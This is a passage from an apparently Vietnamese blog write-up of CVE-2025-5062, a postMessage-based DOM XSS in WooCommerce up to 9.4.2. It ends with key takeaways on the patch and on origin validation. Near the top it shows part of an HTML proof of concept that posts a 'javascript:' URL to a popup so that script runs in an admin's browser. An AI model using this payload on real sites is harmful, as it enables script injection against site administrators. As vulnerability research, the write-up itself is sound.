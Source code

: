 ```html
                "width=400,height=300"
            );

            // Chờ popup load xong
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Gửi message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert(\"phu0c ph4m\")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```

* Admin truy cập trang web và click `Open Popup`
* Sau 5s, sự kiện JavaScript được kích hoạt

{{< figure src="xss2.png" caption="Sự kiện JavaScript từ popup" >}}

👉 Đúng với mô tả CVE.

> Popup không thể tự động kích hoạt nếu không có tương tác của người dùng
> {: .prompt-info }

Ở đây, ta không thể sử dụng `<iframe>` bởi vì `X-Frame-Options: SAMEORIGIN` được set trong response => chỉ khi cùng origin mới nhúng được.

{{< figure src="req1.png" caption="X-Frame-Options: SAMEORIGIN được set trong response" >}}

## Conclusion

Lỗ hổng **CVE-2025-5062** trong plugin **WooCommerce <= 9.4.2** là **PostMessage-based DOM XSS**. Kẻ tấn công không cần xác thực có thể gửi message độc hại tới trang **customize-store**, khiến trình duyệt nạn nhân thực thi script. Bản vá **9.4.3** đã kiểm tra origin, xác thực cấu trúc dữ liệu và whitelist URL trước khi redirect.

**Key takeaways**:

* **PostMessage-based DOM XSS** có thể thực thi script khi người dùng tương tác (popup/link).
* Dữ liệu từ **postMessage** luôn phải coi là không tin cậy.
* Luôn **validate origin, kiểm tra cấu trúc dữ liệu và URL** trước khi redirect.
* **Cập nhật plugin** lên bản vá mới nhất để ngăn khai thác.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WooCommerce <= 9.3.2 and from 9.4 through 9.4.2 — CVE-2025-5062](https://patchstack.com/database/wordpress/plugin/woocommerce/vulnerability/wordpress-woocommerce-plugin-9-3-2-9-4-9-4-2-postmessage-based-cross-site-scripting)
